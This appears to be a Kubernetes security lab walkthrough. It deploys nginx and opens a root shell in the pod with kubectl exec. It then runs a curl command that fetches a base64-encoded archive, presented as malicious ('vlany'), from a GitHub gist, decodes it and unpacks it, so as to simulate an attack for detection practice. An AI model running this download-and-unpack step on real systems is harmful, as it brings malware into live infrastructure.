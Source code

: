 
Let's simulate an attack on our cluster by logging into it and running some nefarious commands.  In this example we will use `kubectl exec` to install some system updates, install a package, then download a `tar` file, explode it. This routine may be typical of a malware or user instigated attack.

First let's create a deployment.

```
$ kubectl create ns nginx
namespace/nginx created

$ kubectl apply -f nginx-deployment-foo.yaml -n nginx
deployment.apps/nginx-deployment created

$ kubectl get pods -n nginx
NAME                               READY   STATUS              RESTARTS   AGE
nginx-deployment-5d57c58f5-4zdj4   0/1     ContainerCreating   0          13s
```

Verify the Pod has STATUS 'Running' and READY '1/1' before continuing.

```
$ kubectl get pods -n nginx
NAME                               READY   STATUS    RESTARTS   AGE
nginx-deployment-5d57c58f5-4zdj4   1/1     Running   0          80s
```

Make a note the Pod name, as you will require that shortly.

Now that the deployment is running, let's simulate the attack.  

Run the following command to create a shell into the running Container, substituting the pod name as appropriate

```
$ kubectl exec -it nginx-deployment-5d57c58f5-4zdj4 -n nginx -- /bin/bash
root@node01:/#
```

Create a directory in the container

```
$ mkdir mymalware
$
```

You can execute the commands inside the container, or even download some malicious file.

```
$ apt-get update
$ apt-get install curl -y
$ cd /tmp
$ curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz
$ tar zxvf vlany-master.tar.gz`{{execute}}
